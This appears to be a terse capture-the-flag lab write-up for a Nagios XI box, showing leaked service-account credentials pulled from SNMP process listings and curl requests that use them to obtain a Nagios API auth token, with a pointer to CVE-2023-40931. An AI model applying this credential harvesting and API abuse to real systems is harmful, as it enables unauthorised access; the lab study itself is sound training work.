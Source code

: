 ```bash
┌──(pwn㉿kali)-[~]
└─$ cat snmp.txt | grep "1423"
HOST-RESOURCES-MIB::hrSWRunIndex.1423 = INTEGER: 1423
HOST-RESOURCES-MIB::hrSWRunName.1423 = STRING: "bash"
HOST-RESOURCES-MIB::hrSWRunID.1423 = OID: SNMPv2-SMI::zeroDotZero
HOST-RESOURCES-MIB::hrSWRunPath.1423 = STRING: "/bin/bash"
HOST-RESOURCES-MIB::hrSWRunParameters.1423 = STRING: "-c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"
HOST-RESOURCES-MIB::hrSWRunType.1423 = INTEGER: application(4)
HOST-RESOURCES-MIB::hrSWRunStatus.1423 = INTEGER: runnable(2)
HOST-RESOURCES-MIB::hrSWRunPerfCPU.1423 = INTEGER: 5
HOST-RESOURCES-MIB::hrSWRunPerfMem.1423 = INTEGER: 3436 KBytes

```
-svc XjH7VCehowpR1xZB
sounds like credentials ?
-go back to the website
-try to login
The specified user account has been disabled or does not exist.>
-now its svc ? that mean it a service
-in the box about page 
```
 Using the Nagios API
```
-google it 'login Nagios API'
`https://support.nagios.com/forum/viewtopic.php?t=58783`
```bash
curl -XPOST -k -L 'http://YOURXISERVER/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=nagiosadmin&password=YOURPASS&valid_min=5'

```

```bash
curl -XPOST -k -L 'http://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=5'
```
svc XjH7VCehowpR1xZB
- **Access the Nagios API** as `svc` without needing the password.
- **Query sensitive information** from the system.
- **Look for privilege escalation paths** (e.g., CVE-2023-40931, which affects the API).
```bash
┌──(pwn㉿kali)-[~]
└─$ curl -XPOST -k -L 'http://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=5'
{
    "username": "svc",
    "user_id": "2",
    "auth_token": "0c9d32c4feaf46f79c30967ff5e1cc4f653c89de",
    "valid_min": 5,
    "valid_until": "Thu, 06 Feb 2025 02:18:20 -0500"

```
